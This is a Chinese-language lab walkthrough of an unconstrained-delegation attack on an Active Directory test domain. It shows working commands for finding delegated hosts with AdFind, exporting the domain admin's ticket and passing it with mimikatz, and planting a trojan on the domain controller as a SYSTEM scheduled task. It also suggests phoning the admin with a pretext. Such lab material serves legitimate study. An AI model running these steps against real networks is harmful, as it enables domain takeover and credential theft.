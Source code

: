 # 非约束委派攻击(主动)

### 利用非约束委派域控主动访问控制域控：
- 如果域管访问非约束委派的机器，就可以通过该机器伪造域管身份登录域控。

- | 机器位置 | IP              | 机器名称        | 登录用户           | 所属域   | 委派位置   |
  | -------- | --------------- | --------------- | ------------------ | -------- | ---------- |
  | 域控     | 192.168.211.10  | WIN-E0TAL57RCAA | HECK\administrator | heck.com | 域控       |
  | 域内机   | 192.168.211.201 | PC-2016         | HECK\zz            | heck.com | 非约束委派 |

- 前提：控制了一台域内机器且该机器服务账号配置了非约束性委派

### 实验步骤：

- 使用ADfind查询域内非约束委派机器账号。

  ```
  shell AdFind.exe -b "DC=heck,DC=com" -f "(&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" cn distinguishedName
  ```

  

![image-20240616135214525](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240616135214525.png)


- 可以看到该太主机很幸运的被配置了非约束性委派，那么接下来只要域管访问了这台电脑我们就可以控制整个域（可以社工，比如打电话给域管说自己访问不了web系统了，让他远程看看...），我们先尝试访问一下域控，是不可以访问的。

![image-20240616185055355](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240616185055355.png)

- 当成功社工使域管访问PC-2016机器时，该机器内存中就会有域管的TGT，就可以访问任意机器了。

```
net use \\PC-2016.heck.com /user:heck\administrator 11qq```
```

![image-20240616185113843](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240616185113843.png)

- 接下来去PC-2016导出内存中的票据（需要提权）,输入完成后可以看到域管的TGT了。

  ```
  mimikatz sekurlsa::tickets /export
  ```

![image-20240616213334575](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240616213334575.png)

- 查看当前内存中的票据，如果有则清空票据。

  ```
  查看票据：shell klist
  清空票据：shell klist purge
  ```

  

- 进行票据传递即可获得域控的权限了。

  ```
  mimikatz kerberos::ptt 票据名
  ```

![image-20240616214304424](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240616214304424.png)

- 接下来尝试访问域控，可以看到成功访问了。

![image-20240616214654102](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240616214654102.png)

- 话不多说，直接三板斧上线域控。

  ```
  复制木马到域控上：shell copy zz.exe \\WIN-E0TAL57RCAA.heck.com\c$
  创建计划任务：shell schtasks /create /s WIN-E0TAL57RCAA.heck.com /tn zz /sc onstart /tr c:\zz.exe /ru system /f
  执行计划任务：shell schtasks /run /s WIN-E0TAL57RCAA.heck.com /i /tn "zz"
  ```

![image-20240616215143691](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240616215143691.png)

![image-20240616215222905](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240616215222905.png)

![image-20240616215344459](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240616215344459.png)

- 可以看到域控已成功上线cs。

  ![image-20240616215502525](https://hecker-typora.oss-cn-shanghai.aliyuncs.com/image-20240616215502525.png)

